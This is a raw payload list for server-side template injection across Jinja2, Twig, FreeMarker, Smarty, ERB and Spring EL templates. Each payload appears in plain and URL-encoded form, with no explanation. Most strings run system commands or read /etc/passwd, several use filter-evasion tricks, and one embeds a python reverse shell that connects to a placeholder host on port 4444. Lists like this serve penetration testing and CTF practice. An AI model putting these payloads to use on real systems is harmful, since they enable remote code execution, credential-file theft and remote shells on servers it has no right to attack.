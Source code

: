 {{2*2}}[[3*3]]
{{3*3}}
{{3*'3'}}
<%= 3 * 3 %>
${6*6}
${{3*3}}
@(6+5)
#{3*3}
#{ 3 * 3 }
*{7*7}
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{''.__class__.__base__.__subclasses__()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}
{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
{{'a'.toUpperCase()}} 
{{ request }}
{{self}}
<%= File.open('/etc/passwd').read %>
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{$smarty.version}
{php}echo `id`;{/php}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"/etc/passwd\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
${T(java.lang.System).getenv()}
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}



%7B%7B2%2A2%7D%7D%5B%5B3%2A3%5D%5D%0A
%7B%7B3%2A3%7D%7D%0A
%7B%7B3%2A%273%27%7D%7D%0A
%3C%25%3D%203%20%2A%203%20%25%3E%0A
%24%7B6%2A6%7D%0A
%24%7B%7B3%2A3%7D%7D%0A
%40%286%2B5%29%0A
%23%7B3%2A3%7D%0A
%23%7B%203%20%2A%203%20%7D%0A
%7B%7Bdump%28app%29%7D%7D%0A
%7B%7Bapp.request.server.all%7Cjoin%28%27%2C%27%29%7D%7D%0A
%7B%7Bconfig.items%28%29%7D%7D%0A
%7B%7B%20%5B%5D.class.base.subclasses%28%29%20%7D%7D%0A
%7B%7B%27%27.class.mro%28%29%5B1%5D.subclasses%28%29%7D%7D%0A
%7B%7B%20%27%27.__class__.__mro__%5B2%5D.__subclasses__%28%29%20%7D%7D%0A
%7B%7B%27%27%2E%5F%5Fclass%5F%5F%2E%5F%5Fbase%5F%5F%2E%5F%5Fsubclasses%5F%5F%28%29%5B227%5D%28%27cat%20%2Fetc%2Fpasswd%27%2C%20shell%3DTrue%2C%20stdout%3D%2D1%29%2Ecommunicate%28%29%7D%7D
%7B%25%20for%20key%2C%20value%20in%20config.iteritems%28%29%20%25%7D%3Cdt%3E%7B%7B%20key%7Ce%20%7D%7D%3C/dt%3E%3Cdd%3E%7B%7B%20value%7Ce%20%7D%7D%3C/dd%3E%7B%25%20endfor%20%25%7D%0A
%7B%7B%27a%27.toUpperCase%28%29%7D%7D%20%0A
%7B%7B%20request%20%7D%7D%0A
%7B%7Bself%7D%7D%0A
%3C%25%3D%20File.open%28%27/etc/passwd%27%29.read%20%25%3E%0A
%3C%23assign%20ex%20%3D%20%22freemarker.template.utility.Execute%22%3Fnew%28%29%3E%24%7B%20ex%28%22id%22%29%7D%0A
%5B%23assign%20ex%20%3D%20%27freemarker.template.utility.Execute%27%3Fnew%28%29%5D%24%7B%20ex%28%27id%27%29%7D%0A
%24%7B%22freemarker.template.utility.Execute%22%3Fnew%28%29%28%22id%22%29%7D%0A
%7B%7Bapp.request.query.filter%280%2C0%2C1024%2C%7B%27options%27%3A%27system%27%7D%29%7D%7D%0A
%7B%7B%20%27%27.__class__.__mro__%5B2%5D.__subclasses__%28%29%5B40%5D%28%27/etc/passwd%27%29.read%28%29%20%7D%7D%0A
%7B%7B%20config.items%28%29%5B4%5D%5B1%5D.__class__.__mro__%5B2%5D.__subclasses__%28%29%5B40%5D%28%22/etc/passwd%22%29.read%28%29%20%7D%7D%0A
%7B%7B%27%27.__class__.mro%28%29%5B1%5D.__subclasses__%28%29%5B396%5D%28%27cat%20/etc/passwd%27%2Cshell%3DTrue%2Cstdout%3D-1%29.communicate%28%29%5B0%5D.strip%28%29%7D%7D%0A
%7B%7Bconfig.__class__.__init__.__globals__%5B%27os%27%5D.popen%28%27ls%27%29.read%28%29%7D%7D%0A
%7B%25%20for%20x%20in%20%28%29.__class__.__base__.__subclasses__%28%29%20%25%7D%7B%25%20if%20%22warning%22%20in%20x.__name__%20%25%7D%7B%7Bx%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.popen%28request.args.input%29.read%28%29%7D%7D%7B%25endif%25%7D%7B%25endfor%25%7D%0A
%7B%24smarty.version%7D%0A
%7Bphp%7Decho%20%60id%60%3B%7B/php%7D%0A
%7B%7B%5B%27id%27%5D%7Cfilter%28%27system%27%29%7D%7D%0A
%7B%7B%5B%27cat%5Cx20/etc/passwd%27%5D%7Cfilter%28%27system%27%29%7D%7D%0A
%7B%7B%5B%27cat%24IFS/etc/passwd%27%5D%7Cfilter%28%27system%27%29%7D%7D%0A
%7B%7Brequest%7Cattr%28%5Brequest.args.usc%2A2%2Crequest.args.class%2Crequest.args.usc%2A2%5D%7Cjoin%29%7D%7D%0A
%7B%7Brequest%7Cattr%28%5B%22_%22%2A2%2C%22class%22%2C%22_%22%2A2%5D%7Cjoin%29%7D%7D%0A
%7B%7Brequest%7Cattr%28%5B%22__%22%2C%22class%22%2C%22__%22%5D%7Cjoin%29%7D%7D%0A
%7B%7Brequest%7Cattr%28%22__class__%22%29%7D%7D%0A
%7B%7Brequest.__class__%7D%7D%0A
%7B%7Brequest%7Cattr%28%27application%27%29%7Cattr%28%27%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fimport%5Cx5f%5Cx5f%27%29%28%27os%27%29%7Cattr%28%27popen%27%29%28%27id%27%29%7Cattr%28%27read%27%29%28%29%7D%7D%0A
%7B%7B%27a%27.getClass%28%29.forName%28%27javax.script.ScriptEngineManager%27%29.newInstance%28%29.getEngineByName%28%27JavaScript%27%29.eval%28%5C%22new%20java.lang.String%28%27xxx%27%29%5C%22%29%7D%7D%0A
%7B%7B%27a%27.getClass%28%29.forName%28%27javax.script.ScriptEngineManager%27%29.newInstance%28%29.getEngineByName%28%27JavaScript%27%29.eval%28%5C%22var%20x%3Dnew%20java.lang.ProcessBuilder%3B%20x.command%28%5C%5C%5C%22whoami%5C%5C%5C%22%29%3B%20x.start%28%29%5C%22%29%7D%7D%0A
%7B%7B%27a%27.getClass%28%29.forName%28%27javax.script.ScriptEngineManager%27%29.newInstance%28%29.getEngineByName%28%27JavaScript%27%29.eval%28%5C%22var%20x%3Dnew%20java.lang.ProcessBuilder%3B%20x.command%28%5C%5C%5C%22netstat%5C%5C%5C%22%29%3B%20org.apache.commons.io.IOUtils.toString%28x.start%28%29.getInputStream%28%29%29%5C%22%29%7D%7D%0A
%7B%7B%27a%27.getClass%28%29.forName%28%27javax.script.ScriptEngineManager%27%29.newInstance%28%29.getEngineByName%28%27JavaScript%27%29.eval%28%5C%22var%20x%3Dnew%20java.lang.ProcessBuilder%3B%20x.command%28%5C%5C%5C%22uname%5C%5C%5C%22%2C%5C%5C%5C%22-a%5C%5C%5C%22%29%3B%20org.apache.commons.io.IOUtils.toString%28x.start%28%29.getInputStream%28%29%29%5C%22%29%7D%7D%0A
%7B%25%20for%20x%20in%20%28%29.__class__.__base__.__subclasses__%28%29%20%25%7D%7B%25%20if%20%22warning%22%20in%20x.__name__%20%25%7D%7B%7Bx%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.popen%28%22python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ip%5C%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22/bin/cat%5C%22%2C%20%5C%22flag.txt%5C%22%5D%29%3B%27%22%29.read%28%29.zfill%28417%29%7D%7D%7B%25endif%25%7D%7B%25%20endfor%20%25%7D%0A
%24%7BT%28java.lang.System%29.getenv%28%29%7D%0A
%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%27cat%20etc/passwd%27%29%7D%0A
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%2899%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28116%29%29.concat%28T%28java.lang.Character%29.toString%2832%29%29.concat%28T%28java.lang.Character%29.toString%2847%29%29.concat%28T%28java.lang.Character%29.toString%28101%29%29.concat%28T%28java.lang.Character%29.toString%28116%29%29.concat%28T%28java.lang.Character%29.toString%2899%29%29.concat%28T%28java.lang.Character%29.toString%2847%29%29.concat%28T%28java.lang.Character%29.toString%28112%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28115%29%29.concat%28T%28java.lang.Character%29.toString%28115%29%29.concat%28T%28java.lang.Character%29.toString%28119%29%29.concat%28T%28java.lang.Character%29.toString%28100%29%29%29.getInputStream%28%29%29%7D%0A




